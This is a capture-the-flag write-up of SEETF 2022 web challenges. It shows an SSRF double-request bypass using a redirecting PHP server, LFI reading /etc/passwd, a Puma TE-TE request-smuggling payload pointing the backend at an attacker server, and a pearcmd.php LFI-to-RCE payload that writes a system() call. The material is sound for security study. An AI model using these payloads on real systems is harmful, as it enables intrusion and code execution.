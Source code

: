 # See CTF 2022 - Web
------------------------

## Super Secure Requests Forwarder
#### about :
- Type: web 
- Level: easy
- Points : 100

<center><img src="../images/ssrf_chall.png"></center>

we look at the source code , the main app is like :
```python
@app.route('/', methods=['GET', 'POST'])
def index():

    if request.method == 'POST':
        url = request.form['url']

        # Prevent SSRF
        try:
            advocate.get(url)

        except:
            return render_template('index.html', error=f"The URL you entered is dangerous and not allowed.")

        r = requests.get(url)
        return render_template('index.html', result=r.text)

    return render_template('index.html')
```
what catched my eye is the problem of only checking one time , with **advocat** , the normal behavior is to use the get request result , not sending another unsafe request , so i created a server , when the second request is launched we forward to /flag : 

```php
<?php $var = $_SERVER['HTTP_X_FORWARDED_FOR'] ?>
<?php echo "IP : " . $var . "\n" ?>
<?php echo "subnet : " . substr($var ,0 , 2) . "\n" ?>
<?php
$file = '/tmp/file1.txt';
$current = file_get_contents($file);
if (substr($var ,0 , 2) === '34') {
        echo "Found you \n";
        $current .= "hello";
        system('echo hello >> /tmp/tmp.txt');
        file_put_contents($file, $current);

echo "current : " . $current .  "\n" ;
if ($current === "hellohello") {
        echo "You are the real \n";
        echo "Done";
        header("Location: http://127.0.0.1/flag", true, 301);
}
}
?>
```

## Sourceless Guessy Web (Baby Flag)
#### about :
- Type: web 
- Level: easy
- Points : 100

<center><img src="../images/sgw.png"></center>

First thing I noticed is the url redirceted me to : 
**http://sourcelessguessyweb.chall.seetf.sg:1337/?page=whysoserious** , then my first check was LFI (as mentioned in **for beginners** section), i tried to get /etc/passwd , we found the flag : 

<center><img src="../images/sgw_sol.png"></center>

## Flag Portal (Flag 1)
#### about :
- Type: Web 
- Level: meduim
- Points : 100

<center><img src="../images/fgp1.png"></center>

when  i looked at the source code i found in the Gem installation file : 

```yaml
GEM
  remote: https://rubygems.org/
  specs:
    nio4r (2.5.5)
    puma (5.6.2)
      nio4r (~> 2.0)
    rack (2.2.3)
```

This version has a relatively new CVE [here](https://security.snyk.io/vuln/SNYK-RUBY-PUMA-2437090), it is an HTTP request smuggling of type **TE-TE**, the frontend server _puma_ doesn't render xchuncked, but _ATS_ renders it, the final payload is : 

```http
GET /home HTTP/1.1
Host: revenge
Content-Length: 4
Transfer-Encoding: xchuncked

0
GET /admin?backend=https://your_server HTTP/1.1
Content-Length: 15

x=1
0
[blank]
[blank]
```

## Sourceless Guessy Web (RCE Flag)
#### about :
- Type: Web 
- Level: meduim
- Points : 481

<center><img src="../images/sgw_rce.png"></center>

The wbesite rediect me to **phpinfo.php#:~:text=register_argc_argv** , this shows that we an use this [Technique](https://blog.csdn.net/rfrder/article/details/121042290) to write into a file : 

The payload is then : 

`page=../../../../usr/local/lib/php/pearcmd.php& config-create /tmp/<?=system('/readflag')?>/* /tmp/cmd.php `

And then we can reach to the created file using the simple LFI `page=../../../../tmp/cmd.php`

